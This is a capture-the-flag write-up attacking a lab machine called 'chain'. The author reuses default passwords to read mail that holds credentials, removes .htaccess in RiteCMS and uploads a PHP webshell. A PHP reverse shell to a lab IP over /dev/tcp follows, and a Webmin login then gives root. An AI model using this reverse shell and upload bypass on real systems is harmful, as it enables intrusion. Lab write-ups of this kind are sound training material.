# Chain of Attacks Series (Hard)

## Chain of Attacks - I

Nmap Scan: 

```
Nmap scan report for 192.168.253.164
Host is up (0.0057s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
143/tcp  open  imap            Dovecot imapd
8080/tcp open  http            Apache httpd 2.4.66 ((Ubuntu))
9090/tcp open  ssl/zeus-admin?
```

Aside from the open IMAP port, port 8080 shows an Apache2 Default Page.



Port 9090 is a webmin login page





After looking around annd not being able to get a foothold, I looked at the machine itself and noticed we have 2 possible usernames

```
kdjebat
profapokalips
```

I tried some default passwords first and managed to get a login for both accounts using `admin` (which also was in the machine message)






### Summary of Email Communications

* Kdjebat informed ProfApokalips that he was testing and preparing to deploy a new CMS called **RiteCMS**.
* Kdjebat stated that RiteCMS would be deployed on the **chain** server and made available on **port 8080**.
* Kdjebat completed the deployment and shared the URL: `http://chain:8080/ritecms`.
* ProfApokalips verified that the site was accessible but did not yet have administrator credentials.
* Kdjebat shared the username (**admin**) and  `YWN0dWFsbHkxMjNA==`
* ProfApokalips successfully decoded the credentials and confirmed access to the RiteCMS dashboard.
* ProfApokalips noted that the CMS included a file manager feature.
* Kdjebat later informed that the administrator username had been changed from **admin** to **kdjebat**, while the password remained unchanged.
* Kdjebat informed ProfApokalips that the previous password was no longer valid and provided a new Base64-encoded password: `YWN0dWFsbHlpZGsxMjNA==`.

So final credentials, `kdjebat:actuallyidk123@`.

I added `chain` to my hosts file and visited port `/ritecms`.



Fuzz with `ffuf -w /usr/share/wordlists/dirb/big.txt  -u http://chain:8080/ritecms/FUZZ`:

```
.htpasswd               [Status: 403, Size: 312, Words: 21, Lines: 10, Duration: 6ms]
.htaccess               [Status: 403, Size: 312, Words: 21, Lines: 10, Duration: 15ms]
cms                     [Status: 301, Size: 351, Words: 21, Lines: 10, Duration: 1ms]
data                    [Status: 301, Size: 352, Words: 21, Lines: 10, Duration: 3ms]
files                   [Status: 301, Size: 353, Words: 21, Lines: 10, Duration: 3ms]
media                   [Status: 301, Size: 353, Words: 21, Lines: 10, Duration: 7ms]
templates               [Status: 301, Size: 357, Words: 21, Lines: 10, Duration: 4ms]
```

After searching about RiteCMS, I found that the login page is at `admin.php`.




I used the credentials we got and logged in. I went to the file manager (as it was mentioned in the emails) and found that I can access `.htaccess`.



I deleted it to disable any restrictions on file upload. Now to upload a simple php webshell to `/media'



With this command, we can read the user flag: `http://chain:8080/ritecms/media/shell.php?cmd=cat%20../../../local.txt`.




## Chain of Attacks - II

I first started a reverse shell to make things more easier with this script:

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.253.129/1234 0>&1'");
?>
```

I managed to find 2 files, `users.db` and `db.config` in `/var/www/html/ritecms`.

```
cat users.db
�ytableusersusersCREATE TABLE users (
    id INTEGER PRIMARY KEY,
    username TEXT,
    password TEXT,
    email TEXT,
    role TEXT
���J��8+7norzahraN0rzahr4@securenorzahra@appsecmy.comviewer:##=syafiqhazimSyaf!q#2024syafiqhazim@appsecmy.comviewer1%3razmanrazm4n!2023@razman@appsecmy.comeditor:-9aimantino4iman_4dmin@2024aimantino@appsecmy.comadminA')Aprofapokalipspr0f4p0k@2024!profapokalips@appsecmy.comeditor5kdjebatKd@secur3!2024kdjebat@appsecmy.comeditor


cat db.config
; Database Configuration
; Internal use only

[database]
host     = localhost
name     = chaindb
username = aimantino
password = 4iman_4dmin@2024
port     = 3306
```

Since aimantino user was repeated twice, I tried his credentials for webmin login `aimantino:4iman_4dmin@2024`




We are logged in!

I noticed a tiny terminal button in the sidebar and clicked it. It opened a root session!



Flag: `OWASPKL{68e8511198425c0cbbb3f0d182314afd}`


